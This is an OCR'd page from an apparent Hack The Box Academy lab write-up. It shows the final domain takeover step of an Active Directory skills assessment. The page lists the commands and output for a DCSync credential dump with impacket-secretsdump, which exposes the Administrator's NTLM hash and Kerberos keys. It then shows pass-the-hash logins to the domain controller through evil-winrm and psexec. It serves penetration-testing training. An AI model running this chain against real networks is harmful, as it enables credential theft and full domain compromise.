 ### 

8. Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#8.-take-over-the-domain-and-submit-the-contents-of-the-flag.txt-file-on-the-administrator-desktop-on)

┌──(kali㉿kali)-[~]

└─$ proxychains crackmapexec smb 172.16.6.3 -u tpetty -p 'Sup3rS3cur3D0m@inU2eR'

SMB 172.16.6.3 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)

SMB 172.16.6.3 445 DC01 [+] INLANEFREIGHT.LOCAL\tpetty:Sup3rS3cur3D0m@inU2eR

​

┌──(kali㉿kali)-[~]

└─$ proxychains impacket-secretsdump INLANEFREIGHT/tpetty@172.16.6.3 -just-dc-user administrator

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)

[*] Using the DRSUAPI method to get NTDS.DIT secrets

Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::

[*] Kerberos keys grabbed

Administrator:aes256-cts-hmac-sha1-96:a76102a5617bffb1ea84ba0052767992823fd414697e81151f7de21bb41b1857

Administrator:aes128-cts-hmac-sha1-96:69e27df2550c5c270eca1d8ce5c46230

Administrator:des-cbc-md5:c2d9c892f2e6f2dc

[*] Cleaning up...

​

┌──(kali㉿kali)-[~]

└─$ proxychains evil-winrm -i 172.16.6.3 -u administrator -H 27dedb1dab4d8545c6e1c66fba077da0

*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname; whoami

DC01

inlanefreight\administrator

​

┌──(kali㉿kali)-[~]

└─$ proxychains impacket-psexec inlanefreight.local/administrator@172.16.6.3 -hashes :27dedb1dab4d8545c6e1c66fba077da0

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0